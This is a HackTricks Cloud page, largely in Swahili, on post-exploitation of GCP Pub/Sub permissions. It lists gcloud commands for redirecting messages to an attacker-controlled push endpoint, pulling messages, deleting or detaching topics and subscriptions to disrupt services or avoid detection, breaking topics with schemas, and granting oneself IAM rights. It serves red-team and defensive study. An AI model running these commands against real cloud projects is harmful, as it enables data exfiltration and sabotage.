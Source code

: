 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Kwa maelezo zaidi kuhusu Pub/Sub angalia ukurasa ufuatao:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Chapisha ujumbe katika mada, muhimu kwa **kutuma data zisizotarajiwa** na kuanzisha kazi zisizotarajiwa au kutumia udhaifu:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Inatumika kuzuia usajili kupokea ujumbe, labda ili kuepuka kugundulika.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Inatumika kuzuia usajili kupokea ujumbe, labda ili kuepuka kugundulika.\
Inawezekana kufuta mada hata ikiwa na usajili ulioambatanishwa nayo.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Tumia ruhusa hii kuboresha mipangilio fulani ya mada ili kuharibu, kama `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Jipe ruhusa ya kufanya mashambulizi yoyote ya hapo awali.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Pata ujumbe wote katika seva ya wavuti: 

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Unda usajili na uitumie **kuchota ujumbe**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Kufuta usajili** kunaweza kuwa na manufaa kuharibu mfumo wa usindikaji wa kumbukumbu au kitu kingine kama hicho:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Tumia ruhusa hii kuboresha baadhi ya mipangilio ili ujumbe uhifadhiwe mahali unapoweza kufikia (URL, Big Query table, Bucket) au kuharibu tu. 

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Jipe ruhusa zinazohitajika ili kutekeleza mashambulizi yoyote yaliyotajwa hapo awali.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Shambulia muundo kwa mada ili ujumbe usifanye hivyo na kwa hivyo mada inaharibika.\
Ikiwa hakuna muundo, huenda ukahitaji kuunda mmoja.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Hii inaweza kuonekana kama kufuta muundo ambapo utaweza kutuma ujumbe ambao haukidhi muundo. Hata hivyo, kwa kuwa muundo utafutwa, hakuna ujumbe utakaoweza kuingia ndani ya mada. Hivyo hii ni **HAIFAI**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Jipe ruhusa zinazohitajika kutekeleza mashambulizi yoyote yaliyotajwa hapo awali.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Hii itaunda picha ya ujumbe wote ambao haujakubaliwa na kuwarudisha kwenye usajili. Si ya manufaa sana kwa mshambuliaji lakini hapa iko:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
